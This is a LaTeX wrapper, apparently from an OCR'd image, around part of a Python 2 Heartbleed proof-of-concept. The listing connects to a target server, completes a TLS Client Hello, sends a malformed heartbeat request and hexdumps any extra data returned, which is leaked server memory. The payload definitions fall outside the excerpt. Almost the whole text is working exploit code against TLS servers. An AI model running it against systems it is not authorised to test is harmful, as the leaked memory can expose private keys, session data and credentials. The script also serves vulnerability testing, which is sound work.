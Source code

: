 \documentclass[11t]{article}
\begin{document}
\begin{lstlisting}[breaklines=true]
def hit_hb(s):
    s.send(hb)
    while True:
        typ, ver, pay = recvmsg(s)
        if typ is None:
            print 'No heartbeat response received, server likely not vulnerable'
            return False

        if typ == 24:
            print 'Received heartbeat response:'
            hexdump(pay)
            if len(pay) > 3:
                print 'WARNING: server returned more data than it should - server is vulnerable!'
            else:
                print 'Server processed malformed heartbeat, but did not return any extra data.'
            return True

        if typ == 21:
            print 'Received alert:'
            hexdump(pay)
            print 'Server returned error, likely not vulnerable'
            return False

def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    print 'Connecting...'
    sys.stdout.flush()
    s.connect((args[0], opts.port))
    print 'Sending Client Hello...'
    sys.stdout.flush()
    s.send(hello)
    print 'Waiting for Server Hello...'
    sys.stdout.flush()
    while True:
        typ, ver, pay = recvmsg(s)
        if typ == None:
            print 'Server closed connection without sending Server Hello.'
            return
        # Look for server hello done message.
        if typ == 22 and ord(pay[0]) == 0x0E:
            break

    print 'Sending heartbeat request...'
    sys.stdout.flush()
    s.send(hb)
    hit_hb(s)

if __name__ == '__main__':
    main()
\end{lstlisting}
\end{document}
